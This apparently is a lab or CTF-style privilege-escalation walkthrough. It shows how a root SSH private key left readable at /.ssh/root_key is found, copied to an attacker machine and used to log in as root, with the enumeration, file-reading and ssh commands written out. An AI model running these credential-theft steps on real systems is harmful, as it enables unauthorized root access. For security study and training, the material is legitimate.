

/.ssh/root_key
Private key exposed
With it we can connect via ssh from another machine with root privileges
1. Search for files:
target@debian:~$ ls -la / /.ssh/ /etc/exports /tmp /var/backups /var/mail/ /var/spool/mail/ /var/tmp
target@debian:~$ ls -la /.ssh
target@debian:~$ cat /.ssh/root_key
:
Because the name of the file “root_key” suggest that it belongs to the root user.
target@debian:~$ cat /etc/ssh/sshd_config | grep "PermitRootLogin"
:
1) Copy the SSH key including ----BEGIN/END RSA PRIVATE KEY----
2) Create a copy file of the PRIVATE KEY on the attacker machine
attacker@kali:/# vim root_key_copy
#i --> insert mode
#CTRL+SHIFT+V --> to paste the private key
#Esc --> to exit from the insert-mode
#:wq --> to write and quit
attacker@kali:/# chmod 600 root_key_copy
#correct file permissions
3) Connect to the target Host via SSH with root privileges
attacker@kali:/# ssh -i root_key_copy root@192.168.147.197
-i → identity_file; Selects a file from which the identity (private key) for public key authentication is read.
